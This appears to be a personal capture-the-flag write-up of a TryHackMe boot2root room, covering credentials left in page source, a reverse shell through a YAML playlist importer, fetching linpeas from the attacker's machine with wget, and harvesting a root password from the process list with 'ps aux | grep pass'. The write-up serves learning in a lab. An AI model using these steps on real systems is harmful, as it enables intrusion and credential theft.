




https://tryhackme.com/room/hh-beachbar-d849f7f7

I typically pause my KVM Kali VM in between working on rooms, today the date and time wasn't syncing properly which results in a rive app error when trying to access THM. 

The fix is pretty simple:

```
sudo timedatectl set-ntp true
```

That step may have been redundant as timedatctl said the NTP service was active.

```
sudo systemctl restart systemd-timesyncd
```

The room is boot2root meaning that we need to find 2 flags, one for the user account and one for the root account.

I started with a basic nmap scan which just showed ssh and HTTP as being open.

Visiting the machine IP gives us a DJ booth login.

I tried admin/admin then I inspected the page source. The login information that we need is in a comment in the source code.



This gives us access to the DJ booth dashboard.



I tried a bash revshell as a script renamed as a .yaml and as various lines in the importer page playlist box, but nothing has worked so far.

I've had to add time to the room and I think I'm stuck so I'm going to start watching the walkthrough.

10 minutes into the walkthrough and it looked like I was sort of on the right track.
I had asked AI about running commands in yaml, and it had talked about using python.
But the exact part I tried had extra stuff since it was trying to put it inside of yaml, instead of
just using the python commands.




I forgot, I have to add the bash -c to have the reverse shell work.

Once the reverse shell was connected I was able to
```
cat /home/bartender/user.txt
```
The user flag was inside.

I did some poking around manually for a SUID binary and decided to just run linpeas after reading the following article. https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/


I installed updog and served linpeas
```
pipx install updog
linpeas
updog -p 80
```


I downloaded linpeas via the reverse shell
```
wget kalip/linpeas.sh
```

I ran linpeas and was about to rerun it with logging to a file when my reverse shell dropped! I thought I had added more time to the box but I guess I hadn't.

I checked the walkthrough while I waited for the machine to start backup, and I was way overthinking it. I'm not sure why processes were the first thing the walkthrough jumped to. I think that's a problem I have with a lot of walkthroughs is that they don't necessarily show you how they came to a decision.

I had come across the jukebox.py when I was poking around previously, but hadn't connected the fact that it had a password option in the source code. I did search pass rather than the program name and found it no problem.

```
ps aux | grep pass
```

I su to root and got confused because I didn't do the trick that the walk-through showed with python and exporting the TERM variable. There was no output so I did a ls and then a whoami which quickly confirmed I was still on the right track. 

I quickly checked the Ubuntu user and saw something interesting in the .bash_history, it looked like a script was run to check for the copy fail vuln, the box was then updated and then the script was run again presumably to check if it had been patched.

I changed directory into the root home directory and the root.txt was right there with the root flag. 
 